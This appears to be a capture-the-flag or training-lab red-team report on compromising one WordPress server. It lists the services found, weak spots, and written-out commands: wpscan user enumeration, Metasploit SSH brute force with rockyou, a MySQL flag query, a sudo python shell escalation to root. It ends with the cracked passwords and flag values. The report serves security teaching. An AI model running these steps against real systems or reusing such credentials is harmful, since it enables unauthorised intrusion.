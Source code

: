 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH
  - Port 80/TCP: Apache web server
  - Port 111/TCP: rpcbind
  - Port 139/TCP: Samba smbd
  - Port 445/TCP: Samba smbd

The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Micheals account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Metasploit ssh_login module using the usernames acquired from wpscan and a general password list
	  - Hidden in /var/www/flag2.txt
      - find / -iname '*flag*' -type f
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Found the MySQL password in wp-config.php
	  - Searched the posts in wp_posts for flag
      - select post_content from wp_posts where post_content like '%flag%';
  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Logged into Steven after cracking the password hash from mysql
	  - escalated to root using sudo python -c 'import pty; pty.spawn("/bin/sh")'
      - find / -iname '*flag*' -type f
	  
	  
	  
steven:pink84
michael:michael
mysql
	root:R@v3nSecurity
